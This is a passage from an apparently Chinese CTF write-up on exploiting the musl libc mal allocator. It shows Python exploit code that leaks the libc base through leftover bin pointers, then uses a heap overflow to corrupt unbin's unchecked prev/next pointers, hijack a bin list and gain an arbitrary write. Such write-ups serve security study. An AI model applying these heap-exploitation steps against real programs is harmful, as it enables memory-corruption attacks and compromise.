 ![](https://p4.ssl.qhimg.com/t016043560e3bcc63ae.png)

申请大小小于 0x400 字节的 chunk，chunk 前 8 字节就是 unbin 时残留的 bin 链表头部地址。用上只能用一次的 view，即可泄漏 libc 基址。

```python
add(0x1, 'A') #0
libc_base = u64(view(0).ljust(8, '\x00')) - 0x292e41 # bin[0]
```

当 chunk 大小为 0x20 字节时，地址指向`mal.bins[0]`的链表头部`mal+832`，相对于基址的偏移是 0x292e00。

### 4.2 利用 unbin 实现任意地址写

unbin 没有检查`prev`和`next`指针是否合法，通过堆溢出我们可以改写这两个指针，利用 unbin 向任意地址写指针地址，即`*(uint64_t*)(prev + 2) = next`和`*(uint64_t*)(next + 3) = prev`。

![](https://p5.ssl.qhimg.com/t01a818a0515d80ac16.png)
如图，`mal.bins[38]`是一个非空 bin。我们可以在待控制的内存块附近构建一个 fake chunk，利用 unbin 将 fake chunk 地址写到`mal.bins[38]->head`指针上，通过劫持 bin 链表使`malloc`返回 fake chunk，实现任意地址写。

#### 4.2.1 劫持 bin 链表

```python
add(0x10, 'A'*0x10) #1
add(0x10, 'B'*0x10) #2, prevent consolidation
add(0x10, 'C'*0x10) #3
add(0x10, 'D'*0x10) #4, prevent consolidation

free(1)
free(3)
```

首先分配 4 个大小为 0x20 字节的 chunk，然后释放 chunk 1 和 chunk 3。释放的 chunk 进入到`mal.bins[0]`链表，`mal.bins[0]->head`指针指向 chunk 1。

```python
bin = libc_base + 0x292e40 # mal.bins[38]->head

next = bin - 0x10
prev = fake_chunk

payload  = 'X' * 0x10
payload += p64(0x21) * 2 + 'X' * 0x10
payload += p64(0x21) + p64(0x20) + p64(next) + p64(prev)
payload += p8(0x20)
payload += '\n'

add(0x10, payload, 'Y') #1, heap overflow
```

然后分配一个 0x20 字节 chunk，malloc 从`mal.bins[0]`取出`head`指针指向的 chunk 1，更新`head`指针指向 chunk 3。堆溢出 chunk 1，改写 chunk 3 `prev`指针、`next`指针为 fake chunk 地址、`mal.bins[38]->head`指针地址。

```python
add(0x10) # 3, unbin #1
```
